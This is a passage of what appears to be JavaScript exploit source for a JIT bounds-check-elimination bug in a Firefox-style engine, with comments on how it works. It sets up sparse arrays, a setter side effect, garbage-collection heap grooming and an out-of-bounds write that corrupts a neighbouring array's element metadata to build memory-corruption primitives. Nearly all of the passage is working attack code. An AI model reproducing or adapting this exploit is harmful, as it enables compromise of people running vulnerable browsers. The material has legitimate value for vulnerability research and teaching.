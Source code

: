     000000000B5BF1F8  0000000000000000
    000000000B5BF200  0000000000000000

    This layout is then used in conjunction with the JIT bug to begin the array
    corruption.
    */

    // Note that these arrays cannot be declared as vars
    SideEffectArray = [1.1, 1.2, , 1.4]; // MStoreElementHole access to a global sparse array is the unique edge case causes aliasing with MBoundsCheck to fail due to operand type mismatch
    BugArray1 = new Array(0x20); // This array will be used (after heap grooming) to make the OOB overwrite of BugArray2.ElementsMetadata. The heap grooming requires the .length be set to 0, but the length will not matter due to boundscheck elimination (the capacity however still will).
    BugArray2 = new Array(0x20); // This array will be used to read and set pointers reliably and repeatably in MutableArray
    MutableArray = new Array(0x20); // The NativeObject of this array are corrupted to build the exploit primitives

    SideEffectArray.__defineSetter__("-1", function(x) { // Side effects called for OOB SideEffectArray access at index -1
        // Key to understand here is that setting these lengths to 0 and having GC manipulate them into pointing at each other could be done without the boundscheck elimination bug. The boundscheck elimination bug however is what allows them to actually access each other, as it is necessary to set .length to 0 to do the GC trick and the boundschecks are based on .length. Note that access to all of these arrays will still be limited by their capacity metadata field despite elimination of their .length boundscheck.
        BugArray1.length = 0;
        BugArray2.length = 0;
        MutableArray.length = 0;
        GC();
    });

    function GC() { // Call the GC - Phoenhex function
        BufSize = (128 * 1024 * 1024); // 128MB

        for(var i = 0; i < 3; i++) {
            var x = new ArrayBuffer(BufSize); // Allocate locally, but don't save
        }
    }

    function BuggedJITFunc(SideEffectIndex, Index, DblVal) {
        // Removes future bounds checks with GVN

        BugArray1[Index] = 4.2;
        BugArray1[Index - 1] = 4.2;

        // Triggers the side-effect function when a -1 index provided

        SideEffectArray[SideEffectIndex] = 2.2;

        // Write OOB and corrupt BugArray2.ElementsMetadata. Normally boundscheck would prevent this based on .length. Note that despite the bugged elimination of this check, access is still limited to the BugArray1.ElementsMetadata capacity metadata field.

        BugArray1[Index] = DblVal; // Corrupt the BugArray2.ElementsMetadata capacity and length element metadata - 0x7e 0x00 0x00 0x00 0x7e 0x00 0x00 0x00
        BugArray1[Index - 1] = 2.673714696616e-312; // Corrupt the BugArray2.ElementsMetadata flags and initialized length element metadata - 0x00 0x00 0x00 0x00 0x7e 0x00 0x00 0x00
    }
